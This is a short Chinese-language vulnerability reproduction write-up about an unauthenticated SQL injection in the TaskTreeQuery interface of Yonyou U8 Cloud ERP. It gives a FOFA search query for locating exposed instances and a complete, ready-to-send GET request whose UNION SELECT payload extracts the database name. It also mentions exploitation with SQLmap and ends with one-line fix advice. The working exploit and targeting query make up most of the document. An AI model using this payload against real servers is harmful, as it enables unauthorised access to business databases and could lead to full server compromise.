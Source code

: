 
# 用友 U8 Cloud TaskTreeQuery SQL 注入漏洞复现

### 0x01 产品简介

  用友 U8 Cloud 是用友推出的新一代云 ERP，主要聚焦成长型、创新型企业，提供企业级云 ERP 整体解决方案。

### 0x02 漏洞概述

 用友 U8 Cloud /service/~iufo/nc.itf.iufo.mobilereport.task.TaskTreeQuery接口处存在SQL注入漏洞，未授权的攻击者可以通过此漏洞获取数据库权限，进一步利用可导致服务器失陷。

### 0x03 复现环境

FOFA：app="用友-U8-Cloud"

![](assets/1701746370-ed119b34cebd5d67d84627ec847120bc.png)

### 0x04 漏洞复现

PoC

```vbnet
GET /service/~iufo/nc.itf.iufo.mobilereport.task.TaskTreeQuery?usercode=1'+UNION+all+SELECT+1,db_name(),3,4,5,6,7,8,9+from+master..sysdatabases--  HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2762.73 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```

查询数据库名称

![](assets/1701746370-a31650707928158b6b2fc55bbb29fc4c.png)

SQLmap 利用

### ![](assets/1701746370-d2a906bc7a5f4d41a5c9f0fdd73a8ace.png)0x05 修复建议

关闭互联网暴露面或接口设置访问权限

升级至安全版本
